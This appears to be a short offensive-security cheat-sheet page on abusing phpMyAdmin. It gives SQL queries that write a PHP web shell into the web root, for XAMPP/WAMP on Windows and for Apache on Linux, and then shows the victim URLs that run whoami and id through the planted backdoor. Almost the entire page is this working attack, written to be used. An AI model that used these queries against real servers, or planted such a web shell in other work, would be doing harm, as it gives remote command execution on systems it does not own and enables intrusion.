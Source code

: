 # phpMyAdmin Misuse

```
Description: PHP application that lets you interact with a MySQL database through your web browser
Hosted: http://<host>/phpmyadmin

# Windows Example (XAMPP or WAMP or LAMP)
# Query to execute
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\backdoor.php";

Browser: http://<victim-ip>/backdoor.php?cmd=whoami
```

# Linux Example (Apache default path)
```
# Query to execute
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";

Browser: http://<victim-ip>/shell.php?cmd=id
```

## Back to README.md
[BACK](/README.md)